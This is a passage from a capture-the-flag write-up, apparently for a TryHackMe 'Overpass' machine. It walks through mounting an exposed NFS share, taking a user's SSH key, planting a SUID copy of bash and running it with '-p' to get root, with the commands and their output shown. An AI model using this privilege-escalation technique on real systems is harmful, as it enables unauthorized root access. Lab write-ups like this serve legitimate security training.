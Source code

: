 I then tried mounting the nfs share and got the next flag.

```console
┌──(root💀Toyin)-[~]
└─# mount -v -t nfs localhost:/ /tmp/pe
┌──(root💀Toyin)-[/tmp/pe]
└─# ls -la
total 88
drwx------  3 nullcell nullcell   112 Nov 17 22:15 .
drwxrwxrwt 28 root     root     69632 Apr 20 22:04 ..
lrwxrwxrwx  1 root     root         9 Nov  8 22:45 .bash_history -> /dev/null
-rw-r--r--  1 nullcell nullcell    18 Nov  8  2019 .bash_logout
-rw-r--r--  1 nullcell nullcell   141 Nov  8  2019 .bash_profile
-rw-r--r--  1 nullcell nullcell   312 Nov  8  2019 .bashrc
drwx------  2 nullcell nullcell    61 Nov  8 03:20 .ssh
-rw-------  1 nullcell nullcell    38 Nov 17 22:15 user.flag
```

I got the ssh key for the user james and exploiting the nfs share further I uploaded a bash executable and set the SUID bit on it. I the used the ssh key of james to login and run the bash SUID executable with the -p flag and got root.

```console
#local machine
┌──(root💀Toyin)-[/tmp/pe]
└─# cp /bin/bash .
┌──(root💀Toyin)-[/tmp/pe]
└─# chmod +s ./bash

#target machine
┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
└─# ssh -i id_rsa_james james@10.10.134.5
Last login: Wed Nov 18 18:26:00 2020 from 192.168.170.145
[james@localhost ~]$ ./bash -p
./bash: /lib64/libtinfo.so.6: no version information available (required by ./bash)
bash-5.1# whoami
root
```

pwned